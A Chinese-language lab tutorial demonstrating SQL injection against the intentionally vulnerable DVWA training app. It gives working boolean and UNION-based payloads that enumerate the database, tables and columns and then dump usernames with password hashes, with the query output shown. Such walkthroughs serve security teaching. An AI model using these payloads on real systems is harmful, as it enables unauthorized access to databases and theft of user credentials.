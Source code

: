 ```yaml
---
title: 简单的SQL注入 -- dvwa
tag: 信息安全
date: 2021/04/08
---
```


# 简单的SQL注入 -- dvwa

>  **以 `dvwa`的 `low-level`为例**


## 布尔注入

### Injection Code

```sql
' or 1 = 1 # 
```

### Result

这里可以查出其他用户的一些信息

```
ID: ' or 1 =1 # 
First name: admin
Surname: admin
ID: ' or 1 =1 # 
First name: Gordon
Surname: Brown
ID: ' or 1 =1 # 
First name: Hack
Surname: Me
ID: ' or 1 =1 # 
First name: Pablo
Surname: Picasso
ID: ' or 1 =1 # 
First name: Bob
Surname: Smith
```
## 联合注入

**如果我们需要更多信息，可以考虑联合注入，主要是以下几步**

1. 确定字段数
2. 找到数据库名称
3. 找到数据库内的表名
4. 找到表的字段
5. 找到敏感信息

### 1.确定字段数

#### Injection Code

```sql
' union select 1 # 
```

```sql
' union select 1, 2 # 
```

……

简单的可以通过报错信息来试出有多少个字段

#### Result (错误信息)

```
The used SELECT statements have a different number of columns
```

#### Result (正确信息)

```
ID: ' union select 1, 2 # 
First name: 1
Surname: 2
```

### 2. 找到数据库名称

#### Injection Code

```sql
 ' union select 1, database() # 
```

因为有两个字段，所以要写个`1`来占位

#### Result

```
ID:  ' union select 1, database() # 
First name: 1
Surname: dvwa
```

这里可以看到我们的数据库名叫`dvwa`

### 3. 找到数据库内的表名

#### Injection Code

```sql
' union select 1, table_name from information_schema.tables where table_schema = 'dvwa' #
```

`table_name`记录了表的名字，`table_schema`记录的是数据库的名字，这些信息记录在`information_schema`的`tables`里面。

#### Result Code

```
ID: ' union select 1, table_name from information_schema.tables where table_schema = 'dvwa' #
First name: 1
Surname: guestbook
ID: ' union select 1, table_name from information_schema.tables where table_schema = 'dvwa' #
First name: 1
Surname: users
```

### 4. 找到表的字段

#### Injection Code

```sql
' union select 1, column_name from information_schema.columns  where table_name='users' #
```

`column_name`是表的字段名，`table_name`是表名

#### Result

```
ID: ' union select 1, column_name from information_schema.columns  where table_name='users' #
First name: 1
Surname: user_id
ID: ' union select 1, column_name from information_schema.columns  where table_name='users' #
First name: 1
Surname: first_name
ID: ' union select 1, column_name from information_schema.columns  where table_name='users' #
First name: 1
Surname: last_name
ID: ' union select 1, column_name from information_schema.columns  where table_name='users' #
First name: 1
Surname: user
ID: ' union select 1, column_name from information_schema.columns  where table_name='users' #
First name: 1
Surname: password
ID: ' union select 1, column_name from information_schema.columns  where table_name='users' #
First name: 1
Surname: avatar
ID: ' union select 1, column_name from information_schema.columns  where table_name='users' #
First name: 1
Surname: last_login
ID: ' union select 1, column_name from information_schema.columns  where table_name='users' #
First name: 1
Surname: failed_login
```

这里简单整理一下，就可以获得这张表的字段如下：

| user_id | first_name | last_name | user | password | avatar | last_login | failed_login |
| ------- | ---------- | --------- | ---- | -------- | ------ | ---------- | ------------ |

### 5. 找到敏感信息

#### Injection Code

```sql
 ' union select user_id, concat(user,'\t', password) from dvwa.users #
```

如果要查多个字段的话，可以用 `concat`函数，中间可以用`"\t"`连接

#### Result

```
ID: ' union select user_id, concat(user,'\t', password) from dvwa.users #
First name: 1
Surname: admin	5f4dcc3b5aa765d61d8327deb882cf99
ID: ' union select user_id, concat(user,'\t', password) from dvwa.users #
First name: 2
Surname: gordonb	e99a18c428cb38d5f260853678922e03
ID: ' union select user_id, concat(user,'\t', password) from dvwa.users #
First name: 3
Surname: 1337	8d3533d75ae2c3966d7e0d4fcc69216b
ID: ' union select user_id, concat(user,'\t', password) from dvwa.users #
First name: 4
Surname: pablo	0d107d09f5bbe40cade3de5c71e9e9b7
ID: ' union select user_id, concat(user,'\t', password) from dvwa.users #
First name: 5
Surname: smithy	5f4dcc3b5aa765d61d8327deb882cf99
```

| user_id | user    | password(经过加密，不能看到明文) |
| ------- | ------- | -------------------------------- |
| 1       | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
| 2       | gordonb | e99a18c428cb38d5f260853678922e03 |
| 3       | 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b |
| 4       | pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| 5       | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 |

